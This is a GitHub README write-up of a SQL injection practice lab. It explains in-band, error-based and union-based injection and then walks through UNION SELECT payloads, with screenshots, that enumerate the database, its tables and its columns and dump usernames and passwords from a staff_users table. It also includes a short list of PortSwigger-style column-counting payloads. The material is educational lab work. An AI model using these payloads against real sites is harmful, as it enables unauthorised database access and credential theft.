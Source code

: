 ### In-Band SQL Injection

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.


### Error-Based SQL Injection

This type of SQL Injection is the most useful for easily obtaining information about the database structure, as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database. 


### Union-Based SQL Injection

This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.


### Practical:
Click the green "Start Machine" button to use the SQL Injection Example practice lab. Each level contains a mock browser and also SQL Query and Error boxes to assist in getting your queries/payload correct.

Level one of the practice lab contains a mock browser and website featuring a blog with different articles, which can be accessed by changing the id number in the query string.


The key to discovering error-based SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced; these are most commonly single apostrophes ( ' ) or a quotation mark ( " ).


Try typing an apostrophe ( ' ) after the id=1 and press enter. And you'll see this returns an SQL error informing you of an error in your syntax. The fact that you've received this error message confirms the existence of an SQL Injection vulnerability. We can now exploit this vulnerability and use the error messages to learn more about the database structure. 


The first thing we need to do is return data to the browser without displaying an error message. Firstly, we'll try the UNION operator so we can receive an extra result if we choose it. Try setting the mock browsers id parameter to:

```
1 UNION SELECT 1
```

This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query. So let's try again but add another column:

```
1 UNION SELECT 1,2
```

Same error again, so let's repeat by adding another column:

```
1 UNION SELECT 1,2,3
```

Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is displayed because it takes the first returned result somewhere in the website's code and shows that. To get around that, we need the first query to produce no results. This can simply be done by changing the article ID from 1 to 0.

```
0 UNION SELECT 1,2,3
```

You'll now see the article is just made up of the result from the UNION select, returning the column values 1, 2, and 3. We can start using these returned values to retrieve more useful information. First, we'll get the database name that we have access to:

<br>

> examples of payloads for it

```

1 UNION SELECT 1
      
1 UNION SELECT 1,2

1 UNION SELECT 1,2,3

' ORDER BY 1--                      #portswigger

' ORDER BY 2--                      #portswigger

' ORDER BY 3--                      #portswigger

' UNION SELECT NULL--                      #portswigger

' UNION SELECT NULL,NULL--                      #portswigger

' UNION SELECT NULL,NULL,NULL--                      #portswigger

```


```
0 UNION SELECT 1,2,database()
```

You'll now see where the number 3 was previously displayed; it now shows the name of the database, which is sqli_one.


Our next query will gather a list of tables that are in this database.

```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

There are a couple of new things to learn in this query. Firstly, the method group_concat() gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. The next thing is the information_schema database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the sqli_one database, which is article and staff_users. 


As the first level aims to discover Martin's password, the staff_users table is what interests us. We can utilise the information_schema database again to find the structure of this table using the below query.

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

This is similar to the previous SQL query. However, the information we want to retrieve has changed from table_name to column_name, the table we are querying in the information_schema database has changed from tables to columns, and we're searching for any rows where the table_name column has a value of staff_users.


The query results provide three columns for the staff_users table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.

```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

Again, we use the group_concat method to return all of the rows into one string and make it easier to read. We've also added ,':', to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML ***<br>*** tag that forces each result to be on a separate line to make for easier reading.


You should now have access to Martin's password to enter and move to the next level.

*************

## Let's go to hacking with mr.4bo-4yman ;)        
i will follow the same steps which we learned  GOO;


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8cf76b5b-82c9-4d3c-b5e1-f0f4e799d18a ">
</p>

This default page, we try ***id=2***

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/704f2e5e-daa5-4b4a-9725-d3d06abe9c4e ">
</p>

We need to know this site exist SQL Injection OR No , We try ```'``` or ```"``` to know this.

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/55d4d594-6438-4ad8-b478-92b319d7589c ">
</p>

Now, We all know that exist SQL Injection , LET'S GO ;)

First we try it :


```
1 UNION SELECT 1
```

And

```
1 UNION SELECT 1,2
```

And
```
1 UNION SELECT 1,2,3
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/3ca5f799-54b8-4f40-84e1-343f20954fb9 ">
</p>

this failed.

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/56079864-1ded-429f-9079-29a1f88289d9 ">
</p>

This failed.


<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2f40d53b-439e-4b69-ba2a-682f393d1f2d ">
</p>

WOOW, This successful! 

#### what is the Next ?

We change id from ```1``` to ```0``` :

```
0 UNION SELECT 1,2,3
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8cda1be0-f704-48c0-9f75-d1cf0e67024a ">
</p>

Verry Good, We access to Database.
Now i will try it:

```
0 UNION SELECT 1,2,database()
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/334e9086-2ceb-45e7-9ac5-83a58f2e0d5e ">
</p>

sqli_one is name of database and now access to sqli_one.


```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0eaf4817-3692-48e5-8f24-f12a77dcdc5e ">
</p>


Now, we will try it:

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2d149e5b-ca76-4718-a246-6a49525999b1 ">
</p>

Now, We try it:

```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0c8f0dc2-577d-4395-bee1-848b40ba8e28 ">
</p>

### WOOOOW!!! 
WE GET PASSWORD OF MARTIN IS : ```pa$$word```  GOOD BYE ;)







<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****
